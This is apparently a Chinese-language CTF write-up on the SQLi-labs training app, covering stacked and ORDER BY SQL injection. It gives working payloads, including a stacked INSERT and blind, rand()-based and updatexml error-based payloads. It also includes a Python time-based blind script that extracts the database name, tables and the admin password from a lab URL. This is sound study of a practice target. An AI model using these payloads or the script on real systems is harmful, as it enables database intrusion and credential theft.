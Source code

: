 ```yaml
---
title: SQLi-labs Stacked Injection
key: 53bd7dc1076659cb95dbde3171d6a4ea
tags:
  - Writeup
  - CTF
date: 2019-05-25 17:25:00
---
```


## Stacked injection*

堆叠注入(Stacked injection)，简而言之就是通过在可控输入点传送恶意语句从而执行多条(任意)SQL语句的注入方式。

- 原理: 使用分隔符(;)来表示一条sql语句的结束，插入新的执行语句。
- 局限性: 并不是每一个环境下都可以执行，可能受到API或者数据库引擎不支持的限制，当然了权限不足也可以解释为什么攻击者无法修改数据或者调用一些程序，同时堆叠注入产生的错误或结果一般不能在前端环境获取回显信息。

与联合注入(Union injection)的区别在于联合注入的语句类型有限，一般用来执行查询语句，而堆叠注入可执行任意语句。支持堆叠查询的服务：

|             | SQL Server | MySQL | PostgreSQL | Oracle | MS Access |
| :---------: | :--------: | :---: | :--------: | :----: | :-------: |
|   **ASP**   |     √      |       |            |        |     ×     |
| **ASP.NET** |     √      |       |            |        |     ×     |
|   **PHP**   |     √      |       |     √      |        |     ×     |
|  **JAVA**   |            |       |            |   ×    |     ×     |



## Less 38

Description: GET / Stacked Query Injection / String

Payload:

```sql
?id=1';insert into users(id,username,password) values ('40','test','hello world')--+
# id = 40
# Your Username is : test
# Your Password is : hello world
```



## Order by injection

```sql
$sql = "SELECT * FROM users ORDER BY $sort";
```

参见`MySQL SELECT`格式规范:

```sql
SELECT
    [ALL | DISTINCT | DISTINCTROW ]
      [HIGH_PRIORITY]
      [STRAIGHT_JOIN]
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT]
      [SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS]
    select_expr [, select_expr ...]
    [FROM table_references
      [PARTITION partition_list]
    [WHERE where_condition]
    [GROUP BY {col_name | expr | position}, ... [WITH ROLLUP]]
    [HAVING where_condition]
    [WINDOW window_name AS (window_spec)
        [, window_name AS (window_spec)] ...]
    [ORDER BY {col_name | expr | position} #字段名/表达式/字段的位置(整形)
      [ASC | DESC], ... [WITH ROLLUP]] #修饰符升序ASC(默认)/降序DESC
    [LIMIT {[offset,] row_count | row_count OFFSET offset}]
    [INTO OUTFILE 'file_name'
        [CHARACTER SET charset_name]
        export_options
      | INTO DUMPFILE 'file_name'
      | INTO var_name [, var_name]]
    [FOR {UPDATE | SHARE} [OF tbl_name [, tbl_name] ...] [NOWAIT | SKIP LOCKED] 
      | LOCK IN SHARE MODE]]
```

常见的注入方式:

**1.Blind based**

- 字段名已知

  if(1<2, id, username), 条件判断后需要选择字段名，而不能是字段的位置，因为IF函数中整形数据会以字符的形式返回，如if(true, 1, 2)将返回'1', **order by 'xxx' 时将按默认排列显示结果**。

  ```sql
  # case when
  CASE when(true) then id else username end
  # if
  if((select ascii(substr(group_concat(table_name), %d, 1)) \
  from information_schema.tables where table_schema=database())%s%d, id, username)
  ```

- 字段名未知

  **(1)触发mysql错误进行盲注**

  ```sql
  # if cur_database[0] = 'a' -> false -> 
  # select x -> Unknown column 'x' in 'field list' -> Error
  if(ascii(substr((select database()), 1, 1))!=97, 1, (select x))
  ```

  此时即可根据查询结果是否为空，来判断条件的真假。

  **(2)基于时间的盲注**

  ```sql
  1 and if(ascii(substr((select database()), 1, 1))=97, sleep(3), 1)
  ```

  **(3)基于rand()的盲注**

  ```sql
  mysql> select * from users order by rand(1) / rand(0);
  +----+----------+------------+                +----+----------+------------+
  | id | username | password   |                | id | username | password   |
  +----+----------+------------+                +----+----------+------------+
  | 11 | admin3   | admin3     |                |  1 | Dumb     | Dumb       |
  |  5 | stupid   | stupidity  |                |  7 | batman   | mob!le     |
  |  4 | secure   | crappy     |                |  4 | secure   | crappy     |
  |  3 | Dummy    | p@ssword   |                | 12 | dhakkan  | dumbo      |
  | 12 | dhakkan  | dumbo      |                |  8 | admin    | admin      |
  |  9 | admin1   | admin1     |                |  2 | Angelina | I-kill-you |
  |  8 | admin    | admin      |                |  3 | Dummy    | p@ssword   |
  | 10 | admin2   | admin2     |                |  6 | superman | genious    |
  |  1 | Dumb     | Dumb       |                |  5 | stupid   | stupidity  |
  |  7 | batman   | mob!le     |                | 10 | admin2   | admin2     |
  | 14 | admin4   | admin4     |                | 14 | admin4   | admin4     |
  |  2 | Angelina | I-kill-you |                | 11 | admin3   | admin3     |
  |  6 | superman | genious    |                |  9 | admin1   | admin1     |
  +----+----------+------------+                +----+----------+------------+
  13 rows in set (0.00 sec)                     13 rows in set (0.00 sec)
  ```

  order by rand(true/false)中的true(1)和false(0)会作为rand()的种子生成不同的随机数进行排序，可以根据结构的不同来判断条件为真或假。

  ```sql
  rand(ascii(substr((select database()), 1, 1))=97)
  ```

**2.Error based**

payload:

```sql
# XPATH
(updatexml(1,concat(0x7e,(select database()),0x7e),1))
1 and updatexml(1,concat(0x7e,(select database()),0x7e),1)
# XPATH syntax error: '~security~'
```



## Less 46



Description:  GET / Error based / Numeric / Order by clause

sort=1 与 sort=2-1回显相同,**sort**=`1 asc / 1 desc`回显数据排序不同，猜测存在order by注入点~

```php
$id=$_GET['sort'];
$sql = "SELECT * FROM users ORDER BY $id";
```

payload:

```sql
# Error based
updatexml(1,concat(0x7e,(select database()),0x7e),1)
#  XPATH syntax error: '~security~'	
```



## Less 49*



Description: GET / Error based / String / Blind / Order by clause



闭合方式为单引号`'`，这里使用基于时间的盲注，payload如下:



```python
# -*- coding: utf-8 -*-
import time
import requests
from urllib.parse import quote_plus

main_url = 'http://43.247.91.228:84/Less-49/?sort='

# payload
cur_db_name_ = '1\' and if(ascii(substr(database(),%d,1))%s%d, sleep(2), 1)-- '
cur_db_tabs_ = '1\' and if(ascii(substr((select group_concat(table_name) '\
    'from information_schema.tables '\
        'where table_schema=database()), %d, 1))%s%d, sleep(2), 0)-- '
columns_ = '1\' and if(ascii(substr((select group_concat(column_name) '\
    'from information_schema.columns '\
        'where table_schema=database() '\
            'anandd table_name=\'users\'), %d, 1))%s%d, sleep(2), 0)-- '
password_ = '1\' and if(ascii(substr((select password '\
    'from users where username=\'admin\'),%d,1))%s%d, sleep(2), 0)-- '


def check(query_string):
    url = main_url + quote_plus(query_string)
    try:
        html = requests.get(url, timeout=0.15)
    except:
        return True
    return False

def search(payload):
    print('[*]' + payload)
    result = ''
    print('[~]', end = '')
    for i in range(1, 100):
        left = 33
        right = 127
        #binary search
        while left <= right:
            mid = (left + right) // 2
            s = payload % (i, '=', mid)
            if check(s):
                result += chr(mid)
                print(chr(mid), end = '')
                break
            else:
                s = payload % (i, '>', mid)
                if check(s):
                    left = mid + 1
                else:
                    right = mid - 1
        if left > right:
            break
    print()
    return result

if __name__=="__main__":
    cur_db_name = search(cur_db_name_)
    print('[+]current_db:' + cur_db_name)
    cur_db_tabs = search(cur_db_tabs_)
    print('[+]tables:' + cur_db_tabs)
    columns = search(columns_)
    print('[+]users columns:' + columns)
    password = search(password_)
    print('[+]admin password:' + password)
```

